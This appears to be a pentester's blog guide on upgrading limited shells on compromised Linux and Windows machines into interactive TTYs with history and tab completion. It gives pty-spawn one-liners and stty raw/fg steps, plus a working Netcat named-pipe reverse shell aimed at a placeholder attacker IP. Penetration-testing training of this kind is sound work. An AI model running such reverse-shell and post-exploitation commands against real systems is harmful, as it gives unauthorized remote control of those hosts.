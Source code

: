 ```yaml
---
title: Upgrading an Autocomplete TTY Shell on Linux and Windows: A Guide for Pentesters
date: 2024-11-06 10:10:00 +0700
categories: [Other]
tags: [Other, tty-shell, autocomplete]
pin: false
description: Upgrading TTY Shells for Enhanced Usability
---
```


## Upgrading an Autocomplete TTY Shell on Linux and Windows: A Guide for Pentesters

### Introduction

When working with command-line interfaces on compromised machines, it is common to be limited to basic TTY shells that lack essential features like autocomplete and history. Upgrading these shells can significantly improve usability and efficiency during post-exploitation. This guide covers methods to upgrade TTY shells on both Linux and Windows targets to provide functionalities such as command history and tab completion, making them easier to work with.

### Verify Installed Language(s)

Before attempting to upgrade or interact with shells, it's important to verify which interpreters and shells are available on the target system. This helps determine the best approach to proceed. Here's how to check which interpreters or shells are installed:

```shell
# Check if Python is installed and its location
which python    # Output will show the path if Python 2.x is installed

# Check for Python 3 installation
which python3   # Output will show the path if Python 3.x is installed

# Verify if Bash is available
which bash      # Output will show the path if Bash is installed

# Check for PowerShell on a Linux machine (if applicable)
which pwsh      # This shows if PowerShell Core is available on Linux

# For Windows, check in Command Prompt or PowerShell for presence
where python    # Equivalent to 'which' in Windows
where python3
where bash
```

### Examples

Below are commands to help upgrade the basic TTY shell:

```bash
# Use Python 3 to spawn an upgraded shell
python3 -c 'import pty; pty.spawn("/bin/bash")'

# Use Python 2 to spawn an upgraded shell
python -c 'import pty; pty.spawn("/bin/bash")'

# Alternative approach with os.system
echo os.system('/bin/bash')

# Spawn an interactive shell with /bin/sh
/bin/sh -i

# Use Perl to execute a shell
perl -e 'exec "/bin/sh";'

# Use Ruby to execute a shell
ruby -e 'exec "/bin/sh"'
```

### If Python Isn't Installed, Use:

```shell
# Use the script command to spawn an upgraded shell
script /dev/null -c bash
/usr/bin/script -qc /bin/bash /dev/null
```

### Reverse Shell Example

```bash
# Simple reverse shell using Netcat
rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/sh -i 2>&1 | nc 192.168.xxx.xxx 9001 >/tmp/f
```

### Steps to Get an Autocomplete Shell

1. After choosing one of the methods above to upgrade your TTY shell, suspend it using:

    ```bash
    ctrl-z
    ```

2. On the attacker's machine, run:

    ```bash
    stty raw -echo
    stty -a  # Verify current terminal settings
    ```

3. Bring the shell to the foreground:

    ```bash
    fg
    ```

4. Press `Enter` twice to reactivate the session.

Now you should have a shell with autocomplete, history, and better usability features.

